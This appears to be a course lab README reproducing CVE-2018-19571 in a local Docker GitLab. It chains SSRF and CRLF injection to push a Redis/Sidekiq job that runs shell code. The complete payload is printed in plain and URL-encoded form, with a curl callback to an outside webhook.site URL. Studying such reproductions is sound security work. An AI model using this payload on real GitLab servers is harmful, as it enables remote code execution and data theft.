 # GitLab SSRF

This repository is a reproduction of [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571), and how when combined with a CRLF injection exploit, can lead to remote code execution (RCE).

## CVE Details

### CVE-2018-19571

GitLab CE/EE, versions 8.18 up to 11.x before 11.3.11, 11.4 before 11.4.8, and 11.5 before 11.5.1, are vulnerable to an SSRF vulnerability in webhooks.

## Setting Up

For this reproduction, we will be using a vulnerable GitLab image, and running it using Docker Compose.

```sh
git clone https://github.com/CS4239-U6/gitlab-ssrf.git
cd gitlab-ssrf
docker-compose up
```

The goal is to provide a webhook URL that, when processed, would result in a payload being sent to Redis.

This payload, that will be enqueued, will contain a Sidekiq Job, which upon execution will run arbitrary shell code. In our case, it will copy over the flag value to us.

## Steps

We will first run through the steps, before explaining what each of these steps do.

1. Create an account, or login using the root account.

   The root password should be `password`, as specified in the file `initial_root_password`, but sometimes this doesn't end up loading properly.

   In such cases, you will need to modify the root account password directly.

   ```sh
   docker exec -it gitlab-ssrf_web_1 /bin/bash
   # Inside the shell
   gitlab-rails console
   # Inside the console
   user = User.find_by_username 'root'
   user.password = 'password'
   user.password_confirmation = 'password'
   user.save!
   ```

   Then, head over to `http://localhost:5080` and login.

   ![Login Page](docs/login.png)

2. Navigate to the create project page.

   Next, head over to `http://localhost:5080/projects/new` and click the tab `Import project`. You should see that there is an option: `Repo by URL`. We are going to use that to perform our SSRF attack.

   ![Project Page](docs/project.png)

3. Create a webhook to receive the flag.

   Create a webhook URL at `https://webhook.site/`.

   Paste the URL into the following code at `<URL HERE>`:

   ```text
   git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
   multi
   sadd resque:gitlab:queues system_hook_push
   lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| curl https://webhook.site/807b6a27-314e-4947-b5f1-c384d8dc574f -k\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
   exec
   exec
   /ssrf.git
   ```

   Then finally, we encode the above using a [URL Encoder](https://www.urlencoder.org/). Note that we will only be encoding the payload (which includes the blanks at the beginning and the linebreaks), and not the first and last line. You will also need to use CRLF. Lastly, do replace the following characters, if any, with their respective encoding:

   - `_`: `%5F`
   - `.`: `%2E`
   - `-`: `%2D`

   ```text
   git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%20curl%20https%3A%2F%2Fwebhook%2Esite%2F807b6a27%2D314e%2D4947%2Db5f1%2Dc384d8dc574f%20%2Dk%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
   ```

   (Or you can just use this payload above, and check out <https://webhook.site/#!/807b6a27-314e-4947-b5f1-c384d8dc574f/> to see the output).

   ![Loading](docs/loading.png)

   You should see that a GET request was made to the webhook (and it will repeat as GitLab repeatedly tries to fetch the repository).

   ![Webhook](docs/webhook.png)

### Debugging

If the above is failing for you, you might need to enable Outbound Requests to internal services.

![Requests](docs/request.png)

You can do so at `http://localhost:5080/admin/application_settings/network` after logging in as root.

## How does this work?

We're exploiting two vulnerabilities for this attack. The first vulnerability is SSRF, where internal services can be reached via IPv6. You can see more information at the GitLab issue here: <https://gitlab.com/gitlab-org/gitlab-foss/-/issues/53242>.

The second vulnerability is how line breaks were allowed in the URL for the webhooks.

These two combined allow us to actually pass a payload to the internal service. In this case, we're targeting the local Redis service.

The payload we pass in enqueues a new job in the Redis queue, and this job is actually processed by Sidekiq, a async job runner that works with Ruby on Rails. We're specifically targeting the `GitlabShellWorker` job class, which allows us to execute arbitrary code.

```ruby
class GitlabShellWorker
  include ApplicationWorker
  include Gitlab::ShellAdapter

  def perform(action, *arg)
    gitlab_shell.__send__(action, *arg) # rubocop:disable GitlabSecurity/PublicSend
  end
end
```

Thus, by passing in `open('| curl <URL HERE>').read` and running it with `class_eval`, we can trigger the remote code execution.
